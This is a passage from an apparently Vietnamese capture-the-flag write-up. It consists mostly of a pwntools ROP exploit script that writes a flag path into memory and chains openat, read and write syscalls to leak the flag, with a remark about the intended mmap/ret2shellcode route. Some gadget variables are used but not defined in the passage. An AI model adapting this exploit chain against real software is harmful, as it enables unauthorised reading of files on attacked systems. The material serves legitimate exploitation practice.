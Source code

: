```0x0000000000420f45: mov qword ptr [rsi], rax; ret;``` 
pop_rbx_pop_rbp = 0x00000000004020e2
pop_rdx_leave_ret = 0x00000000004650c3
syscall_ret = 0x000000000040bcd6
mov_rdx_rbx = 0x000000000041fcfb
bss = 0x4b5520
lea = 0x0000000000401e93
mov_rsi_rax = 0x0000000000420f45
xchg_rdx_rax = 0x000000000041799a


# read path to memory 
payload = b'a'*16
payload += p64(pop_rsi_rbp) + p64(0x4b5bc0) + p64(0)
payload += p64(pop_rax) + p64(8386599043768215599)
payload += p64(mov_rsi_rax)
payload += p64(pop_rax) + p64(8371742425456455526)
payload += p64(pop_rsi_rbp) + p64(0x4b5bc0+8) + p64(0)
payload += p64(mov_rsi_rax)
payload += p64(pop_rax) + p64(29816)
payload += p64(pop_rsi_rbp) + p64(0x4b5bc0+16) + p64(0)
payload += p64(mov_rsi_rax)

# openat(-1, "/home/ctf/flag.txt", O_RDONLY) => 3
payload += p64(pop_rdi) + p64(0xffffffffffffffff)
payload += p64(pop_rsi_rbp) + p64(0x4b5bc0) + p64(0)
payload += p64(pop_rax) + p64(0x101)
payload += p64(syscall_ret)
# read
payload += p64(pop_rdi) + p64(3)
payload += p64(pop_rsi_rbp) + p64(0x4b5bc0+24) + p64(0)
payload += p64(pop_rax) + p64(0x100)
payload += p64(xchg_rdx_rax) + p64(pop_rax) + p64(0)
payload += p64(syscall_ret)
# write
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rax) + p64(0x100)
payload += p64(xchg_rdx_rax)
payload += p64(pop_rax) + p64(1)
payload += p64(syscall_ret)


input()
p.sendline(payload)


p.interactive()
```

- 1 dự định của tác giả là dùng mmap để tạo 1 vùng nhớ ```rwx``` rồi ret2shellcode

script 
